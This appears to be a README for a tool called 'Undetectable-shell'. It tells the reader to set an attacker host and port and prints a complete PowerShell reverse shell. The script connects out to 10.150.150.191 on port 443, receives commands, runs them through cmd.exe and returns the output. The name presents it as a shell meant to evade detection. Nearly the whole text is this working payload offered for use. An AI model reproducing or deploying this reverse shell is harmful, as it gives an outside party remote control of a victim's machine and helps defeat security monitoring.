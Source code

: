 # Undetectable-shell


### You need to replace HOST_IP & HOST_PORT in reverse-detected.ps1
### like :

$test='$socket = new-object System.Net.Sockets.TcpClient("10.150.150.191", 443); if($socket -eq $null){exit 1}$stream = $socket.GetStream();$writer = new-object System.IO.StreamWriter($stream);$buffer = new-object System.Byte[] 1024;$encoding = new-object System.Text.AsciiEncoding;do{$writer.Flush();$read = $null;$res = "" while($stream.DataAvailable -or $read -eq $null) {$read = $stream.Read($buffer, 0, 1024)}$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");if(!$out.equals("exit")){$args = "";if($out.IndexOf(" ") -gt -1){$args = $out.substring($out.IndexOf(" ")+1);$out = $out.substring(0,$out.IndexOf(" "));if($args.split(" ").length -gt 1){$pinfo = New-Object System.Diagnostics.ProcessStartInfo;$pinfo.FileName = "cmd.exe";$pinfo.RedirectStandardError = $true;$pinfo.RedirectStandardOutput = $true;$pinfo.UseShellExecute = $false;$pinfo.Arguments = "/c $out $args";$p = New-Object System.Diagnostics.Process;$p.StartInfo = $pinfo;$p.Start() | Out-Null;$p.WaitForExit();$stdout = $p.StandardOutput.ReadToEnd();$stderr = $p.StandardError.ReadToEnd() if ($p.ExitCode -ne 0) {$res = $stderr} else {$res = $stdout}} else {$res = (&"$out" "$args") | out-string;}} else {$res = (&"$out") | out-string;}if($res -ne $null){ $writer.WriteLine($res)}}}; While (!$out.equals("exit"))$writer.close();$socket.close();$stream.Dispose()'

